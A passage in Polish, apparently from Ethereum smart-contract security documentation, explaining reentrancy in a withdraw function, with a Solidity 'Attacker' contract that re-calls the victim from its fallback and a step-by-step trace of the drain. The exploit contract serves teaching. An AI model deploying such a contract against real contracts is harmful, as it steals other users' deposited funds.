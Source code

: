 Aby zezwolić użytkownikowi na wycofanie ETH, który wcześniej przechowywał w kontrakcie, funkcja ta

1. Odczytuje, ile salda ma użytkownik
2. Wysyła mu kwotę tego salda w ETH
3. Resetuje saldo do do 0, więc nie może ponownie wypłacić swojego salda.

W przypadku wywołania ze zwykłego konta (takiego jak własne konto Metamask), działa to zgodnie z oczekiwaniami: msg.sender.call.value() po prostu wysyła ETH z twojego konta. Inteligentne kontrakty mogą jednak również wywoływać połączenia. Jeśli niestandardowy, złośliwy kontrakt jest tym, który wywołuje `withdraw()`, msg.sender.call.value() nie tylko wyśle `amount` w ETH, ale będzie także niejawnie wywoływać kontrakt, aby rozpocząć wykonywanie kodu. Wyobraź sobie, że ten złośliwy kontrakt:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Wywołanie Attacker.beginAttack() rozpocznie cykl, który wygląda następująco:

```
0.) Atakujący EOA wywołuje Attacker.beginAttack() z 1 ETH
0.) Attacker.beginAttack() deponuje 1 ETH na rzecz ofiary

  1.) Atakujący -> Victim.withdraw()
  1.) Ofiara odczytuje balanceOf[msg.sender]
  1.) Ofiara wysyła ETH do atakującego (który wykonuje domyślną funkcję)
    2.) Atakujący -> Victim.withdraw()
    2.) Ofiara odczytuje balanceOf[msg.sender]
    2.) Ofiara wysyła ETH do atakującego (który wykonuje domyślną funkcję)
      3.) Atakujący -> Victim.withdraw()
  3.) Ofiara odczytuje balanceOf[msg.sender]
      3.) Ofiara wysyła ETH do atakującego (który wykonuje domyślną funkcję)
    4.) Atakujący nie ma już wystarczającej ilości gazu, zwraca bez ponownego wywołania
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (już było 0)
  1.) balances[msg.sender] = 0; (już było 0)
```

Wywołanie Attacker.beginAttack z 1 ETH spowoduje atak ponownego wejścia na ofiarę, wycofanie więcej ETH niż zostało dostarczone (pobrane z sald innych użytkowników, powodując, że kontrakt ofiary stanie się niewystarczająco zabezpieczony)

### Jak radzić sobie z wielobieżnością (niewłaściwy sposób) {#how-to-deal-with-re-entrancy-the-wrong-way}
